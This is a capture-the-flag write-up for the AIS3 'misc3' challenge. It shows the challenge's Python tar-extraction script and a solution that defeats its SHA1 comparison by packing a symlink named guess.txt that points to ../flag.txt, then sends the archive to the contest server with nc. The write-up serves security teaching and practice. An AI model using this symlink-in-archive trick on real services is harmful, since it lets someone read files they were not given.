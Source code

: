 # misc3

Author: HaopingKu  
date: July 14, 2016

we get `misc3.py` in this game
```python
#!/usr/bin/env python3

import os
import sys
import tempfile
import subprocess
import resource

resource.setrlimit(resource.RLIMIT_FSIZE, (65536, 65536))
os.chdir(os.environ['HOME'])

size = int(sys.stdin.readline().rstrip('\r\n'))
if size > 65536:
    print('File is too large.')
    quit()

data = sys.stdin.read(size)
# with tempfile.NamedTemporaryFile(mode='w+', suffix='.tar', delete=True, dir='.') as tarf:
with open('flag/a.tar', 'w+') as tarf:
    # with tempfile.TemporaryDirectory(dir='.') as outdir:
        outdir = './tmpx'
        print('data length: ' + str(len(data)))
        tarf.write(data)
        tarf.flush()
        try:
            print(['/bin/tar', '-xf', tarf.name, '-C', outdir])
            subprocess.check_output(['/bin/tar', '-xf', tarf.name, '-C', outdir])
        except:
            print('Broken tar file.')
            raise

        try:
            a = subprocess.check_output(['/usr/bin/sha1sum', 'flag.txt'])
            b = subprocess.check_output(['/usr/bin/sha1sum', os.path.join(outdir, 'guess.txt')])
            a = a.split(b' ')[0]
            b = b.split(b' ')[0]
            assert len(a) == 40 and len(b) == 40
            if a != b:
                raise Exception('sha1')
        except:
            print('Different.')
            raise

        print(open('flag.txt', 'r').readline())
```
First it reads a number from stdin, as the size of file which comes after in stdin.
After inputs, it save the content as a file in a temporary directory, and executes
```bash
/bin/tar -xf <temp_tar_file> -C <temp_dir>
```
After extract temp tar file, it checks the SHA sum of flag.txt and guess.txt. It seems like we need to guess the content in flag.txt, but we can bypass this by creating a link to flag.txt, that is, guess.txt is the same as flag.txt.

Lets create `guess.txt` as a symbolic link to `../flag.txt` in local machine
```bash
$ ln -s ../flag.txt guess.txt
$ tar cf a.tar guess.txt
```
then send it
```bash
echo -e "`stat -c '%s' a.tar`\n`cat a.tar`" | nc quiz.ais3.org 9150
```
flag get!

